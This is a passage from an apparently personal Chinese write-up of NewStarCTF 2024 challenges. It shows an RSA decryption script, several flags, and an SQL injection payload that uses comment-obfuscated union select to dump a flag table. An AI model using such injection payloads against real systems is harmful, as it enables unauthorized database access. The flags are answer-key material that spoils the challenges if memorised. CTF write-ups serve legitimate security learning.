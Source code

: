 py脚本：

```python
p=11867061353246233251584761575576071264056514705066766922825303434965272105673287382545586304271607224747442087588050625742380204503331976589883604074235133
q=11873178589368883675890917699819207736397010385081364225879431054112944129299850257938753554259645705535337054802699202512825107090843889676443867510412393
r=12897499208983423232868869100223973634537663127759671894357936868650239679942565058234189535395732577137079689110541612150759420022709417457551292448732371
c1=8705739659634329013157482960027934795454950884941966136315983526808527784650002967954059125075894300750418062742140200130188545338806355927273170470295451
c2=1004454248332792626131205259568148422136121342421144637194771487691844257449866491626726822289975189661332527496380578001514976911349965774838476334431923162269315555654716024616432373992288127966016197043606785386738961886826177232627159894038652924267065612922880048963182518107479487219900530746076603182269336917003411508524223257315597473638623530380492690984112891827897831400759409394315311767776323920195436460284244090970865474530727893555217020636612445
e=65537
from Crypto.Util.number import *
from gmpy2 import *

#task1
d=invert(e,p-1)
m1=pow(c1,d,p)

#task2
phi=(p-1)*(q-1)*(r-1)
d2=invert(e,phi)
m2=pow(c2,d2,p*q*r)

print(long_to_bytes(m1)+long_to_bytes(m2))
```

flag{Y0u_re4lly_kn0w_Euler_4nd_N3xt_Eu1er_is_Y0u!}







## Web

### 复读机

<img src="E:\学学学\竞赛\CTF（寒假学密码方向）\比赛\2024NewStarCTF\wp\WriteUp_By_Luhaozhhhe.assets\image-20241007222214838.png" alt="image-20241007222214838" style="zoom:50%;" />

flag{a1789875-f37f-49d1-a883-4ded243e3359}



### 谢谢皮蛋 plus

sql注入，简单

输入：`87"/**/union/**/select/**/group_concat(des),group_concat(value)/**/from/**/Fl4g#`
